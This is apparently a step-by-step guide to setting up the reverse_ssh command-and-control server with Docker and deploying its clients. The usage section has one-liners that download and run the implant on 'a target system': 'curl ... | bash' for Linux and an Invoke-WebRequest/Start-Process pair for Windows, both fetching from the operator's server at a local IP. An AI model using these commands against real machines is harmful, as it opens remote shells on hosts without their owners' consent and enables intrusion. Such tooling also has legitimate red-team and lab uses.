 # Requirements

- Server

---

# Setup Guide

### Step 1: Clone the Repository

1. Download the reverse SSH repository:
```
git clone https://github.com/NHAS/reverse_ssh.git
```

### Step 2: Generate an SSH Key Pair

1. Run the following command to create a new SSH key pair:
```
ssh-keygen -t rsa -b 4096 -C "email@gmail.com"
```

### Step 3: Get the Server IP Address

1. Retrieve your server's IP address:
```
ip a
```

### Step 4: Run Reverse SSH with Docker

1. Start the Docker container using your server's IP on port `3232`:
```
docker run -p3232:2222 -e EXTERNAL_ADDRESS=<your.rssh.server.internal>:3232 -e SEED_AUTHORIZED_KEYS="$(cat $HOME/.ssh/id_rsa.pub)" -v ./data:/data reversessh/reverse_ssh
```

### Alternative: Run Reverse SSH with Docker Compose

1. Use the following `docker-compose.yml` configuration:
```
services:
 reversessh:
   image: reversessh/reverse_ssh
   ports:
     - "3232:2222"
   environment:
     - EXTERNAL_ADDRESS=<your.rssh.server.internal>:3232
     - RSSH_CONSOLE_LABEL=c2.label
     - RSSH_LOG_LEVEL=INFO # DISABLED, INFO, WARNING, ERROR, FATAL
     - SEED_AUTHORIZED_KEYS=${SSH_PUBLIC_KEY}
   volumes:
     - ./data:/data
```

---

# Usage

### Step 1: Connect to the Server Console

```
ssh your.rssh.server.internal -p 3232
```

### Step 2: List Available Commands

```
help
```

### Step 3: Build a New Client and Host on the Web Server
#### Linux Client
1. Create a executable for windows
```
link
```
2. Download and execute the binary on a target system:
```
curl http://192.168.0.11:3232/4bb55de4d50cc724afbf89cf46f17d25.sh | bash
```

#### Windows Client
1. Create a executable for windows
```
link --goos windows
```
2. Download and execute the binary on Windows:
```
Invoke-WebRequest -Uri http://192.168.1.140:3232/4ac5d816227cbfba9580a510af5272e2 -OutFile test.exe; Start-Process .\test.exe
```
